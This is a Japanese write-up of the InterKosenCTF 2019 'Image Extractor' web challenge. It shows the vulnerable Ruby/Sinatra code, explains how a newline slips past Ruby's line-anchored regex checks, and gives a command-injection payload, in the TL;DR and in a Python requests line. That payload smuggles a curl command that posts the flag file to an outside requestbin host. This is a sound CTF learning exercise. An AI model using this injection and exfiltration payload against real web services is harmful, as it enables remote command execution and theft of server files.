

InterKosenCTF - Image Extractor writeupの話
2019年8月11日〜2019年8月12日にかけて36時間行われたInterKosenCTFにチームEAnbaiのメンバーとして参加し、チームとしては23位で終了した。個人的にはWeb問に取り組んだが、そのうち「Image Extractor」のwriteupを書き残す。
TL;DR
/image.png\ncurl -X POST {requestbin domain} -d `cat flag`; #
Image Extractor
My hated friend releases a service which extracts images from a document. I want to break it to read /flag.
.docx ファイルをアップロードするとその中に含まれている画像ファイルをリストしたり、個別にダウンロードできる機能を持ったWebアプリケーションである。
Ruby(sinatra)構成となっており、コードは以下
require 'sinatra' require 'securerandom' require 'fileutils' set :environment, :production before do if Dir.exists?("workdir") du = `du -s workdir`.split[0].to_i if du * 512 >= 1024 * 1024 * 10 FileUtils.rm_rf("workdir") Dir.mkdir("workdir") end else Dir.mkdir("workdir") end end get '/' do erb :index end get '/upload' do erb :index end post '/upload' do if params[:file] begin name = SecureRandom.hex(16) filename = File.join("workdir" , name + ".zip") FileUtils.copy(params[:file][:tempfile].to_path, filename) files = `zipinfo -1 #{filename}` raise "ERROR" if files.lines.grep(/^word\/media\//).empty? redirect to('/images/' + name) rescue File.delete(filename) @err = "FAILED to upload a file" erb :index end else @err = 'FAILED to upload a file' erb :index end end get '/images/:name' do |name| zipfile = File.join("workdir", name + ".zip") if name !~ /^[a-f0-9]{32}$/ || !File.exists?(zipfile) @err = "Not Found" erb :index else @name = name @images = `zipinfo -1 #{zipfile}`.lines.grep(/^word\/media\/[A-Za-z0-9_]+\.[A-Za-z0-9_]+/).map do |path| path.delete_prefix("word/media/") end erb :images end end get '/image/:name/:image' do puts puts params[:image] puts if params[:name] !~ /^[a-f0-9]{32}$/ || params[:image] !~ /^[A-Za-z0-9_]+\.[A-Za-z0-9_]+$/ @err = "Not Found" erb :index else zipfile = File.join("workdir", params[:name] + ".zip") filedir = File.join("workdir", SecureRandom.hex(16)) file = File.join(filedir, params[:image]) system("unzip -j #{zipfile} word/media/#{params[:image]} -d #{filedir}") if File.exists?(file) send_file(file) else @err = "Not Found" erb :index end end end
system 関数内での変数展開が行われていることなどから、Command injectionを使うことが予想されるが、各エンドポイントにパスとして渡されるファイル名などのパラメータは正規表現によりそのパターンに一致しない場合 Not Found エラーを返すなどの処理が施されている。このため、
http://web.kosenctf.com:12000/image/xxxxxxxxxxxxxxxx/image.png;ls
のようなパターンは弾かれてしまう。
しかし、この問題の正規表現をよく見ると先頭/末尾を表す文字に ^, $ が使われている。徳丸先生もおっしゃられているように、 /^$/ はあくまで行の先頭/末尾を示すパターンであり、複数行の場合(特に、Rubyはデフォルトが複数行モードのようなので)はこの限りでない。つまり、
http://web.kosenctf.com:12000/image/xxxxxxxxxxxxxxxx/image.png\n;ls
とした場合、上記の正規表現チェックを回避できる。
これを /image/:name/:image エンドポイント内の system 関数内で用い、flagを外へ持ち出すコードが以下である。
import requests requests.get("http://web.kosenctf.com:12000/image/xxxxxxxxxxxxxxxx/image.png\ncurl -X POST {requestbin domain} -d `cat flag`; #")
ファイル名のあとに改行を挿入し、 curl コマンドで cat flag の結果を -d パラメータでくっつけてrequestbinに立てたサーバへとPOSTしている。これで実際に system 関数で実行されるコマンドは以下のようになるはずだ。
unzip -j ZIP_FILE word/media/image.png curl -X POST {requestbin domain} -d `cat flag`; # -d FILE_DIR
requestbinの画面で以下のようにフラグが表示された。

おわりに
フラグ読む感じsymbolic linkを使ってやる感じだったっぽい